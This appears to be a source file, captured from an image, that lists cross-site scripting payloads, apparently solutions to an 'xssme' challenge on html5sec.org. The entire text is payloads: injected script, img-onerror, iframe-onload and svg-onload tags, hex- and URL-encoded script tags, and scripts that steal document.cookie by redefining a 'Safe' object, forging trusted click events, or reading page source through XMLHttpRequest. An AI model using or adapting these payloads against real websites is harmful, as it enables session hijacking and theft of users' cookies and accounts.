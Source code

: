 xzdsds\"%29%29;}catch%28e%29{alert%28document.domain%29;}//<img src=x onerror=prompt(0);>
<iframe/onload=prompt(0);>
<svg/onload=prompt(0);> 
<script> document.getElementById(%22safe123%22).setCapture(); document.getElementById(%22safe123%22).click(); </script>">
<script>Object.defineProperties(window, {Safe: {value: {get: function() {return document.cookie}}}});alert(Safe.get())</script>">
<script>var x = document.createElement('iframe');document.body.appendChild(x);var xhr = x.contentWindow.XMLHttpRequest();xhr.open('GET', 'http://xssme.html5sec.org/xssme2', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();</script>">
<script>(function() {var event = document.createEvent(%22MouseEvents%22);event.initMouseEvent(%22click%22, true, true, window, 0, 0, 0, 0, 0, false, false, false, false, 0, null);var fakeData = [event, {isTrusted: true}, event];arguments.__defineGetter__('0', function() { return fakeData.pop(); });alert(Safe.get.apply(null, arguments));})();</script>">
<script>var script = document.getElementsByTagName('script')[0]; var clone = script.childNodes[0].cloneNode(true); var ta = document.createElement('textarea'); ta.appendChild(clone); alert(ta.value.match(/cookie = '(.*?)'/)[1])</script>">
<script>xhr=new ActiveXObject(%22Msxml2.XMLHTTP%22);xhr.open(%22GET%22,%22/xssme2%22,true);xhr.onreadystatechange=function(){if(xhr.readyState==4%26%26xhr.status==200){alert(xhr.responseText.match(/'([^']%2b)/)[1])}};xhr.send();</script>">
<script>alert(document.documentElement.innerHTML.match(/'([^']%2b)/)[1])</script>">
<script>alert(document.getElementsByTagName('html')[0].innerHTML.match(/'([^']%2b)/)[1])</script>">
<%73%63%72%69%70%74> %64 = %64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74(%22%64%69%76%22); %64%2e%61%70%70%65%6e%64%43%68%69%6c%64(%64%6f%63%75%6d%65%6e%74%2e%68%65%61%64%2e%63%6c%6f%6e%65%4e%6f%64%65(%74%72%75%65)); %61%6c%65%72%74(%64%2e%69%6e%6e%65%72%48%54%4d%4c%2e%6d%61%74%63%68(%22%63%6f%6f%6b%69%65 = '(%2e%2a%3f)'%22)[%31]); </%73%63%72%69%70%74>">
<script> var xdr = new ActiveXObject(%22Microsoft.XMLHTTP%22);  xdr.open(%22get%22, %22/xssme2%3Fa=1%22, true); xdr.onreadystatechange = function() { try{   var c;   if (c=xdr.responseText.match(/document.cookie = '(.*%3F)'/) )    alert(c[1]); }catch(e){} };  xdr.send(); </script>">
<iframe id=%22ifra%22 src=%22/%22></iframe> <script>ifr = document.getElementById('ifra'); ifr.contentDocument.write(%22<scr%22 %2b %22ipt>top.foo = Object.defineProperty</scr%22 %2b %22ipt>%22); foo(window, 'Safe', {value:{}}); foo(Safe, 'get', {value:function() {    return document.cookie }}); alert(Safe.get());</script>">
<script>alert(document.head.innerHTML.substr(146,20));</script>">
<script>alert(document.head.childNodes[3].text)</script>">
<script>var request = new XMLHttpRequest();request.open('GET', 'http://html5sec.org/xssme2', false);request.send(null);if (request.status == 200){alert(request.responseText.substr(150,41));}</script>">
<script>Object.defineProperty(window, 'Safe', {value:{}});Object.defineProperty(Safe, 'get', {value:function() {return document.cookie}});alert(Safe.get())</script>">
<script>x=document.createElement(%22iframe%22);x.src=%22http://xssme.html5sec.org/404%22;x.onload=function(){window.frames[0].document.write(%22<script>r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2',false);r.send(null);if(r.status==200){alert(r.responseText.substr(150,41));}<\/script>%22)};document.body.appendChild(x);</script>">
<script>x=document.createElement(%22iframe%22);x.src=%22http://xssme.html5sec.org/404%22;x.onload=function(){window.frames[0].document.write(%22<script>Object.defineProperty(parent,'Safe',{value:{}});Object.defineProperty(parent.Safe,'get',{value:function(){return top.document.cookie}});alert(parent.Safe.get())<\/script>%22)};document.body.appendChild(x);</script>">
<script> var+xmlHttp+=+null; try+{ xmlHttp+=+new+XMLHttpRequest(); }+catch(e)+{} if+(xmlHttp)+{ xmlHttp.open('GET',+'/xssme2',+true); xmlHttp.onreadystatechange+=+function+()+{ if+(xmlHttp.readyState+==+4)+{ xmlHttp.responseText.match(/document.cookie%5Cs%2B=%5Cs%2B'(.*)'/gi); alert(RegExp.%241); } } xmlHttp.send(null); }; </script>">
<script> document.getElementById(%22safe123%22).click=function()+{alert(Safe.get());} document.getElementById(%22safe123%22).click({'type':'click','isTrusted':true}); </script>">
<script> var+MouseEvent=function+MouseEvent(){}; MouseEvent=MouseEvent var+test=new+MouseEvent(); test.isTrusted=true; test.type='click';  document.getElementById(%22safe123%22).click=function()+{alert(Safe.get());} document.getElementById(%22safe123%22).click(test); </script>">
<script>  (function (o) {   function exploit(x) {    if (x !== null)     alert('User cookie is ' %2B x);    else     console.log('fail');   }      o.onclick = function (e) {    e.__defineGetter__('isTrusted', function () { return true; });    exploit(Safe.get());   };      var e = document.createEvent('MouseEvent');   e.initEvent('click', true, true);   o.dispatchEvent(e);  })(document.getElementById('safe123')); </script>">